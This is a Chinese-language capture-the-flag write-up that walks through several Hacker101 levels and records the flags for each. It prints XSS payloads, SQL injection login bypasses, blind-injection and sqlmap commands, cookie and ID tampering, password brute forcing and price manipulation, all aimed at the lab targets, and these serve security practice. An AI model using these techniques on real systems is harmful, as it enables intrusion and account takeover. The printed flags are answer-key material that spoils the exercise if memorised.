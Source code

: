 网址：
ctf.hacker101.com

关卡：
## 一、Micro-CMS v1
### （1）信息收集：
打开发现是个markdown管理系统。
可以创建markdown文件。可以发现这些文件前缀都是:
http://35.196.135.216:5001/795706216d/page/
通过最后的数字判断文件在哪个页面.可进行注入尝试。

而且发现网站中只能看到1,2
新创建的网页为6证明有东西被隐藏或者删除了。

发现还有几个动作,分别是：
page,edit,create

### （2）针对已知点进行攻击：
从弱到难：

先查看是否有隐藏信息:
输入3，4时都是400，而输入4时是403，代表4可能有问题:

http://35.196.135.216:5001/795706216d/page/4

试试其他动作看下，只有edit可试，尝试：
http://35.196.135.216:5001/795706216d/page/edit/4

真的发现了secret
My secret is 
```
^FLAG^a1fe3f4dbf0af943e60cccfd46d5a29bba3fea553f653f77a612a9b5606c2004$FLAG$
```

由于没有下一步提示，继续按照刚才的信息收集做：
尝试sql注入
对于page页面，
','%23,and 1均错误

再尝试edit页面，
加'里面出现flag:
http://35.196.135.216:5001/795706216d/page/edit/1'
证明这里不是有sql注入，而是出题人故意而为
^FLAG^e17cd93321a1c635890ed50fc48aa1e2334a10e01b5a8c9686448834a057ef7f$FLAG$

现在好像没思路了，再想想刚刚的信息收集，
edit,page,create
联想edit和create都有输入框，
尝试标题处edit xss:
<script>alert('1')</script>

^FLAG^ae1ef3b7de7e4d4e0b03e016783a7b1e3f8e7d6de33e481933a76476189cf189$FLAG$

发现create也同样的可以xss，

尝试内容处xss，
测试发现显示内容时<script>标签被过滤了。
此处怀疑点，接下来想办法绕xss。发现script标签被过滤了，

尝试用img
<img src="666" onclick="alert('1')"/>
查看源码发现flag:
flag="^FLAG^06a584e35f473b43e63cbe6da1fa8c2a84c4f938e3ca9b51251a52e5e5f218cf$FLAG$"

## 二、Micro-CMS v2

### （1）信息收集
动作:
edit,page,create,login

发现不登录可以使用page操作
登录后才能edit,create
而且根据cms内公告信息可以看出用户名为admin

登录出可能有问题
### (2)开始攻击

登录出尝试：
正常输入：admin 结果：Unknown user
输入 admin'  结果:报错，而且显示的是python编的代码
查询语句是：
'SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0

所以查询语句是：
SELECT password FROM admins WHERE username='%s'


用
万能密码：admin' or 1=1 and '1'='1  结果：:Invalid password

直接猜密码（布尔盲注的方式），
admin' or (sql)(condition) '%s' and '1'='1 
用脚本
python 2_1.py -t admins -f password -w "1 limit 0,1"
破解出密码为magaret,
这时可以直接输入万能密码为账户，magaret为密码登录
还可以继续猜用户名
python 2_1.py -t admins -f username -w "1 limit 0,1"
账户名为norman

也可以用网上的sqlmap语句
sqlmap -u http://35.190.155.168:5001/c3c5d49d5d/login --method POST --data "username=admin&password=" -p username --dbs --dbms mysql --regexp "invalid password" --level 2

登录后得到第一个flag

^FLAG^990cf6fc09b8e936863cacf172a8dad20d59167fea8678868f556d2934e0cc48$FLAG$


现在尝试访问edit页面，可是发现登录了也无法访问，怎么回事呢？
抓包发现edit的时候会重定向到登录，但是重定向到登录有referer头也不起作用，还是出现flag1的界面
尝试edit的时候用其他方法，post方法
获取flag:
^FLAG^93f40103722bfad62cc30605157ce10827c2142fbda6d0e7fa40d406d38cdaf0$FLAG$


没有其他有用信息了，尝试爆整个库吧
python 2_1.py -t information_schema.tables -f table_name -w "table_schema=database()"
表名：
admins,pages
将整个库全部爆出也没有什么有用信息

再想想还有什么思路？

可以发现每次登录都是登录后出现flag，但是并不能编辑，那么难道就真的不能编辑吗？尝试不用数据库记录的登录而且绕过登录
账号:
' union select '1'#
密码：
1
发现成功登录了。而且没有显示主页面，返回home页面发现多一个private page，点击后出现flag:

^FLAG^e876c996811eef2faa820ba0b9eafb65fed0cb44e32fc5022d4d62ff47781cf6$FLAG$


## 三.关卡三 POSTBOOK

### （1） 信息收集
主页面提示：可以发公开文章和私有文章。
有一个注册页面和登录页面
注册进去后登录，

发现主页有两篇文章了，还有个发post按钮，可以设置文章为私有，还有my profile和settings两个按钮

其中一篇文章是user账户写的，还有一篇文章是注册时自动生成的。

点击文章进去发现url为
http://35.190.155.168:5001/693deb9543/index.php?page=view.php&id=1


### （2）开始攻击
1. 
最显著的攻击点应该是url里面的id和page
可能存在LFI或SQL注入

先尝试sql注入,用Burp模糊测试
发现sql注入没效果

测试LFI没效果

但是发现个奇怪的点，id=1是第一篇文章，id=3是第三篇文章。是不是是私有文章被隐藏了？

尝试id=2
出现flag：
^FLAG^ae5ebffc0f45f4e301a35f1c48a6e1ab0ab15d36b38d9d3a03679489edb6aaf4$FLAG$
题目意思看似隐藏的地方其实不安全（并没有真正隐藏）

猜测是否还有其他隐藏的文章？
burp爆破一下,发现id为946时又出现一个flag:
^FLAG^fade418d0bf44e5e7eb280009610a4cee822e35081fd64abff5527ad18538df0$FLAG$

2. 
尝试write post中xss注入
<script>alert('456')</script>
发现没用

尝试在private页面xss出现flag：
^FLAG^136fd360c8b07564f5108d69428d93a7c5e10f272df9606f687f24ff5f5e60b8$FLAG$
题目意思可以在别人的隐藏页面xss更有效果：



3.尝试登录处sql注入
sql注入无果

4.弱口令
猜测管理员是user，因为它发的文章是Hello Everyone!
尝试弱口令登录
用Burp的密码模糊测试.得出密码为password
登录出现flag
^FLAG^b805c0a8b38d6e93be541c8a92a24a94a73a27019d8d52e13f2993d4c4cc704b$FLAG$

5.因为有多个用户，可以尝试下是否有越权问题
越权查看已经知道了，
看下是否有越权删除和越权编辑

抓删除包:
```
GET /b52a640371/index.php?page=delete.php&id=e4da3b7fbbce2345d7772b0674a318d5 HTTP/1.1
Host: 35.190.155.168:5001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://35.190.155.168:5001/b52a640371/index.php?page=home.php
Cookie: id=eccbc87e4b5ce2fe28308fd9f2a7baf3
Connection: close
Upgrade-Insecure-Requests: 1
```

发现传入的参数有id，而且id好像被加密了，32位，查了下是md5加密
改为id=（2的hash）试试？
发现id为2的被删除了
而且新flag出现了
^FLAG^7d1afa858c305ade10f35272c6ed4067853e94d15f3c9729edf92f4d08d1aa3d$FLAG$

同时也发现cookies中的id也是加密的,而且是当前用户的id（3,当前用户是我创建的第二个用户）
可以知道服务器是通过cookie来验证身份的，用别人id越权创建试下。
出现flag
^FLAG^f6614ed7527fe8333dbfb00a21480563db95a6650186aaa420e9243a16add752$FLAG$

最后一个flag，题目提示试着伪造id为1登陆 
出现flag:
^FLAG^6d30325139a20ceae69f30bc0a5e320131b5b9be58d1cf31174f7d55e8a1d84c$FLAG$




## 四.关卡四 Petshop Pro

checkout时抓包，发现body中带了价格，改为负的即可。^FLAG^83a2b55a90ee38d86981626ee176f13488dd9c8f83c54b03a57774c54d91746a$FLAG$ 


扫描一下网站
发现后台
http://35.190.155.168:5001/e67c97bb00/login


## 五.关卡五 Photo Gallery

### 1.信息收集
打开主页发现有个
url:/fetch?id=1

dirmap 信息枚举发现


### 2.开始攻击

#### 2.1.暴力
/fetch?id=1 枚举id测试


#### 2.2 sql注入
/fetch?id=1 and 1显示正确
/fetch?id=1 and 0 显示错误 存在sql注入

猜想查询语句:select image from image_info where id = {id}

尝试union注入发现不行，
尝试报错注入发现不行
布尔盲注
```
id=1 and (length(database()) > 1)  正确
id=1 and (length(database()) > 20) 错误
```
布尔盲注存在
用脚本盲注：
python3 5_2_2.py -t information_schema.tables -f table_name -w "table_schema=database()"
表名：
albums,photos

python3 5_2_2.py -t information_schema.columns -f column_name -w "table_name='albums'"
python3 5_2_2.py -t information_schema.columns -f column_name -w "table_name='photos'"

albums表id,title列
photos表id,title,filename,parent列

python3 5_2_2.py -t albums -f title

Kittens

python3 5_2_2.py -t photos -f title

Utterly adorable,Purrfect,Invisible

python3 5_2_2.py -t photos -f filename

files/adorable.jpg,files/purrfect.jpg,c2eb2521a9162bb8bbeabc90519f32539a832d09aa816f80e9608edca3d54b1e

得到flag:
^FLAG^c2eb2521a9162bb8bbeabc90519f32539a832d09aa816f80e9608edca3d54b1e$FLAG$
### 2.3



## 六.关卡六 Cody's First Blog

### 1.信息收集

打开后提示作者可以上传文件，而且是用include的方式。

而且还有个留言板怀疑存在xss

账户名是Cody

打开源码发现有
<!--<a href="?page=admin.auth.inc">Admin login</a>-->
出现后台链接

dirsearch扫描
扫描出dockerfile文件,php.ini,posts文件夹

dockerfile文件:

```
FROM nimmis/apache-php5

COPY 000-default.conf /etc/apache2/sites-available/000-default.conf
COPY php.ini /etc/php5/apache2/php.ini

EXPOSE 80

WORKDIR /app

RUN apt-get update
RUN DEBIAN_FRONTEND=noninteractive apt-get install -y mysql-client mysql-server libmysqlclient-dev build-essential python-dev python-pip
RUN pip install mysqlclient

ADD . /app

CMD bash setup.sh
```

### 2.开始攻击

访问：
/?page=admin.auth.inc
出现后台，而admin.auth.inc.php为后台地址
而且猜测可能还有LFI漏洞,存在任意文件遍历读取漏洞

